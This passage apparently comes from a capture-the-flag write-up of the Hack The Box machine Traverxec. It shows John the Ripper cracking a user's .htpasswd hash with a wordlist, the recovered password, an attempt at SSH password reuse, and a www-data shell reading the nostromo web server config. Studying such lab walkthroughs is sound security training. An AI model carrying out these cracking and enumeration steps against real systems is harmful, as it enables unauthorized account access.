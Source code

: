 I cracked the `.htpasswd` of user `david`. The password is `Nowonly4me`. I attempted to try SSH to see if there's password reuse and it failed.

```bash
ghost@localhost [14:55:01] [~/Documents/hacking/tj-null-boxes/traverxec] [master *]
-> % john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status

Nowonly4me       (?)

1 1g 0:00:00:23 DONE (2022-11-13 14:55) 0.04344g/s 114882p/s 114882c/s 114882C/s Np_07_07..Noviembre8
Waiting for 3 children to terminate
3 0g 0:00:00:23 DONE (2022-11-13 14:55) 0g/s 114720p/s 114720c/s 114720C/s NataLiE15..Nat112
4 0g 0:00:00:23 DONE (2022-11-13 14:55) 0g/s 114723p/s 114723c/s 114723C/s NatGav..Nasty9
2 0g 0:00:00:23 DONE (2022-11-13 14:55) 0g/s 114748p/s 114748c/s 114748C/s Nat8503c..Nastieboy6
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Looking through `/var/nostromo/conf`.

```bash
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```
